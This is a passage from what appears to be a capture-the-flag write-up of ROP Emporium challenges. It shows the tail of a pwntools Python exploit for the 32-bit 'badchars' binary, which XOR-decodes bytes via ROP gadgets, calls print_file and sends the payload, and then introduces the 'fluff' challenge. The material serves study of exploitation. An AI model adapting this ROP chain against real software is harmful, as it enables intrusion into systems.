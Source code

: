 ```python
    
    payload += pop_ebx
    payload += p32(xor_key)
    payload += xor_ebp_bl
    
    payload += pop_ebp
    payload += p32(write_location+3)
    payload += xor_ebp_bl
    
    payload += pop_esi_edi_ebp
    payload += b"\x05t\x53t"
    payload += p32(write_location+4)
    payload += p32(write_location+4)
    
    payload += mov_edi_esi
    
    payload += pop_ebx
    payload += p32(xor_key)
    payload += xor_ebp_bl
    
    payload += pop_ebp
    payload += p32(write_location+6)
    payload += xor_ebp_bl
    
    # call print_file
    payload += p32(print_file) 
    payload += b"B" * 4 
    payload += p32(write_location)
    
    p.sendline(payload)
    p.interactive()
    
if __name__=='__main__':
    main()
```

![flag](/assets/images/rop_emp/badchars32/flag.png)

## Challenge 6: Fluff (x86)

For the sixth challenge we are given the following files. The following image shows the result of checksec. 

